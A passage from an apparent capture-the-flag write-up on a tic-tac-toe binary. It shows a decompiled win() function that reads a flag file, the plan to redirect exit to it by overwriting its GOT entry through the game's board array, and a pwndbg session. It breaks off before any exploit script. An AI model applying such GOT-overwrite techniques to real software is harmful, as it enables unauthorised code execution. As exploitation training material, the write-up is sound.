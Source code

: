 ```c
void win(void)
{
  undefined local_118 [264];
  FILE *local_10;
  
  local_10 = fopen("flag.txt","r");
  __isoc99_fscanf(local_10,&DAT_00402013,local_118);
  printf("<<< Congratulations: %s\n",local_118);
  return;
}
```

So we need to somehow call this function. Since the game calls exit, after the player chooses not to play anymore, the plan is to reroute the `exit` call to `win`. This can be done by overriding the [`GOT`](https://en.wikipedia.org/wiki/Global_Offset_Table) entry for `exit` with the address of `win`. Since our writes are going through the `board` array we need to find the offset of the `GOT` entry relative to `board`. This can be done by fireing up `gdb`.

```bash
$ gdb ./tic-tac-toe.bin
pwndbg> break main
Breakpoint 1 at 0x401493
pwndbg> r
Starting program: /home/ctf/carol/tic-tac-toe.bin
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".

Breakpoint 1, 0x0000000000401493 in main ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
─────────────────────────────────────────────────────[ REGISTERS ]──────────────────────────────────────────────────────
 RAX  0x40148f (main) ◂— push   rbp
 RBX  0x7fffffffdf38 —▸ 0x7fffffffe195 ◂— '/home/ctf/carol/tic-tac-toe.bin'
 RCX  0x403df8 (__do_global_dtors_aux_fini_array_entry) —▸ 0x401160 (__do_global_dtors_aux) ◂— endbr64
 RDX  0x7fffffffdf48 —▸ 0x7fffffffe1cb ◂— 'SHELL=/bin/bash'
 RDI  0x1
 RSI  0x7fffffffdf38 —▸ 0x7fffffffe195 ◂— '/home/ctf/carol/tic-tac-toe.bin'
 R8   0x0
 R9   0x7ffff7fcf6a0 (_dl_fini) ◂— push   rbp
 R10  0x7ffff7fcb878 ◂— 0xc00120000000e
 R11  0x7ffff7fe18c0 (_dl_audit_preinit) ◂— mov    eax, dword ptr [rip + 0x1b552]
 R12  0x0
 R13  0x7fffffffdf48 —▸ 0x7fffffffe1cb ◂— 'SHELL=/bin/bash'
 R14  0x403df8 (__do_global_dtors_aux_fini_array_entry) —▸ 0x401160 (__do_global_dtors_aux) ◂— endbr64
 R15  0x7ffff7ffd020 (_rtld_global) —▸ 0x7ffff7ffe2e0 ◂— 0x0
 RBP  0x7fffffffde20 ◂— 0x1
 RSP  0x7fffffffde20 ◂— 0x1
 RIP  0x401493 (main+4) ◂— sub    rsp, 0x20
───────────────────────────────────────────────────────[ DISASM ]───────────────────────────────────────────────────────
 ► 0x401493 <main+4>     sub    rsp, 0x20
   0x401497 <main+8>     mov    dword ptr [rbp - 4], 1
   0x40149e <main+15>    mov    word ptr [rbp - 0x16], 0x4f58
   0x4014a4 <main+21>    lea    rax, [rip + 0xb95]
   0x4014ab <main+28>    mov    rdi, rax
   0x4014ae <main+31>    call   puts@plt                      <puts@plt>

   0x4014b3 <main+36>    mov    rax, qword ptr [rip + 0x2b26]
   0x4014ba <main+43>    mov    rsi, rax
   0x4014bd <main+46>    lea    rax, [rip + 0xb9c]
   0x4014c4 <main+53>    mov    rdi, rax
   0x4014c7 <main+56>    mov    eax, 0
```